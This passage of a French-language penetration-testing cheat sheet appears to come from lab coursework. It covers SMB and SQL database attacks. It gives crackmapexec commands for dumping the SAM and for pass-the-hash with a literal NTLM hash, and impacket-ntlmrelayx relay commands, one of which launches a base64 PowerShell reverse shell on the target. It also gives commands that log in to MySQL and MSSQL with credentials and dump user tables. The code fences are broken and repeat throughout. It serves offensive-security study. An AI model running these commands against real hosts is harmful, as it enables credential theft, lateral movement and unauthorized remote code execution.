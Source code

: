 ```shell
```bash
`crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam`
```shell
### Utilisation de la technique Pass-The-Hash pour s'authentifier sur l'hôte cible
```bash
`crackmapexec smb 10.10.110.17 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE`
```shell
### Extraction de la base de données SAM en utilisant impacket-ntlmrelayx
```bash
`impacket-ntlmrelayx --no-http-server -smb2support -t 10.10.110.146`
```shell
### Exécution d'un shell inverse basé sur PowerShell en utilisant impacket-ntlmrelayx
```bash
`impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.220.146 -c 'powershell -e <base64 reverse shell>`
```shell
---

### Attaque des Bases de Données SQL

### Connexion au serveur MySQL
```bash
`mysql -u julio -pPassword123 -h 10.129.20.13`
```shell
### Connexion au serveur MSSQL
```bash
`sqlcmd -S SRVMSSQL\SQLEXPRESS -U julio -P 'MyPassword!' -y 30 -Y 30`
```shell
### Connexion au serveur MSSQL depuis Linux
```bash
`sqsh -S 10.129.203.7 -U julio -P 'MyPassword!' -h`
```shell
### Connexion au serveur MSSQL depuis Linux lorsque le mécanisme d'authentification Windows est utilisé par le serveur MSSQL
```bash
`sqsh -S 10.129.203.7 -U .\\julio -P 'MyPassword!' -h`
```shell
### Afficher toutes les bases de données disponibles dans MySQL
```bash
`mysql> SHOW DATABASES;`
```shell
### Sélectionner une base de données spécifique dans MySQL
```bash
`mysql> USE htbusers;`
```shell
### Afficher toutes les tables disponibles dans la base de données sélectionnée dans MySQL
```bash
`mysql> SHOW TABLES;`
```shell
### Sélectionner toutes les entrées disponibles de la table "users" dans MySQL
```bash
`mysql> SELECT * FROM users;`
```shell
### Afficher toutes les bases de données disponibles dans MSSQL
```bash
`sqlcmd> SELECT name FROM master.dbo.sysdatabases`
```shell
### Sélectionner une base de données spécifique dans MSSQL
```bash
`sqlcmd> USE htbusers`
```shell
### Afficher toutes les tables disponibles dans la base de données sélectionnée dans MSSQL
```bash
`sqlcmd> SELECT * FROM htbusers.INFORMATION_SCHEMA.TABLES`
```shell
### Sélectionner toutes les entrées disponibles de la table "users" dans MSSQL
```bash
`sqlcmd> SELECT * FROM users`
```shell
```